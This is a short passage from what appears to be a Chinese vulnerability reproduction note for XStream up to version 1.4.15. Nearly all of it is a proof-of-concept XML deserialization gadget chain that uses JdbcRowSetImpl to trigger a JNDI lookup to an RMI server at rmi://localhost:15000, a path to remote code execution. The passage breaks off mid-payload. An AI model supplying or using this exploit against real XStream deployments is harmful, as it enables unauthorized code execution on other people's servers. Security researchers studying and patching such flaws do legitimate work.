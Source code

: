 **影响版本**：<=1.4.15  
**测试环境**：XStream1.4.15 jdk1.8\_66  
**漏洞复现**：  
POC

```bash
<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://localhost:15000/CallRemoteMethod</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
```